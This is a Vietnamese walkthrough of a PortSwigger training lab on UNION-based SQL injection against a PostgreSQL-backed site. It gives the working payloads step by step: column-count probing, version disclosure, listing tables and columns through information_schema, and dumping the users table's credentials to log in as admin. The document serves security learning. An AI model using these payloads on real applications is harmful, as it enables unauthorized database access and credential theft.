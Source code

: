 ## SQL injection attack, listing the database contents on non-Oracle databases

Tiếp tục thực hiện inject query vào sau url **' order by 2--** (tới 3 là lỗi) do web load bình thường ta biết được database vẫn có 2 trường.

Tiếp tục truy vấn ra tên cơ sở dữ liệu từng lệnh như trong cheatsheet để xác định cơ sở dữ liệu nào.  

> **' union select version(),NULL--**

![](/imgs/SQL-Injection/22.png?raw=true)

Lab yêu cầu ta phải đăng nhập bằng tài khoản trong bảng user nên ta phải biết bảng user tên là gì trong database

Câu query list tất cả các table trong Postgres: SELECT * FROM information_schema.tables
Nhưng chúng ta không thể select * để lấy tất cả được vì sẽ bị lỗi trên url => cho nên chúng ta sẽ sử dụng các column name đặc biệt trong Postgres.

(https://www.postgresql.org/docs/9.5/infoschema-columns.html)

![](/imgs/SQL-Injection/23.png?raw=true)

Sau khi thực hiện truy vấn 
```markdown
**' UNION SELECT table_name,NULL%20 FROM information_schema.tables--**
```

![](/imgs/SQL-Injection/24.png?raw=true)

Chúng ta sẽ tìm tới bảng users, do sẽ có nhiều bảng user nên thường ngta sẽ đặt tên bảng là số nhiều nên chúng ta chỉ chú ý trước những bảng này để select.

Ở đây mình sẽ select bảng **users_tucmxy**

Dựa theo [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) lệnh select ra các trường có trong bảng sẽ là

> **SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'**

Áp dụng vào

```markdown
**' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_tucmxy--**
```

Chúng ta sẽ thu được 2 trường **username_sxdvlv** và **password_pnxobl**

![](/imgs/SQL-Injection/25.png?raw=true)

Chúng ta đã biết được tên các trường và tên bảng, tiến hành select ra data

```markdown
**' UNION SELECT username_sxdvlv,password_pnxobl from users_tucmxy--**
```

![](/imgs/SQL-Injection/26.png?raw=true)

Login vào tài khoản admin là solve

![](/imgs/SQL-Injection/27.png?raw=true)





